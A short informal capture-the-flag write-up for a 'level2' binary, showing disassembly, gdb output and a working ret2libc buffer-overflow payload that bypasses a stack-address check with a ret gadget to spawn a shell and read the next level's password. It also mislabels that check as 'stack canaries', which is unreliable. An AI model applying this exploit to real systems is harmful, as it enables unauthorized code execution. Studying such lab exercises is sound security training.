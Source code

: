 ( realy fast md because it is late XD )

So, the exploit is without surprise a buffer overflow.

It can be done because gets is call by seeing this line :
```
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
```
the main difference are those lines in the dump
```
 80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
 8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
 804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
 804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048513:	89 04 24             	mov    %eax,(%esp)
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
```
so somewhere in the code, there is a checkin that look like that
```c

if ((somthing & 0xb0000000) == 0xb0000000) {
    printf("something....");
    exit(1);
}
```

what is does is that it prevent previous command to overwrite the return adress to an adress on the stack.

we can see that by trying to do a basic buffer overflow (the adress on the command are explained later):
```
( python -c "print('X' * 80 + '\x60\xb0\xe6\xb7' + 'D' * 4 + '\x58\xcc\xf8\xb7')" ; cat ) | ./level2
```
it returns ```(0xb7e6b060)``` 

*reminder : usualy it returns the value without parentheses so here the if and printf is trigger because there is only one printf that could have had append the ()*

The check is done after the gets operation so i just decided to return before the check.

After futher research, I discovered that the protection is called a **Stack canaries**

further below we can see the return code of the function and we just have to put this adress just before the overflow :
```
 804853e:	c3                   	ret    
```

Here is a code that show the adress of system and "/bin/sh".
```
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048483 in main ()
(gdb) print &system
$4 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

# !! TODO : explain how to find the overflow size


putting it all together, we just have to execute
```
( python -c "print('X' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + 'D' * 4 + '\x58\xcc\xf8\xb7')" ; cat ) | ./level2
```

and TADA we have a shell with level3 rights !!

then just go to /home/user/level3 and cat .pass and we have the flag
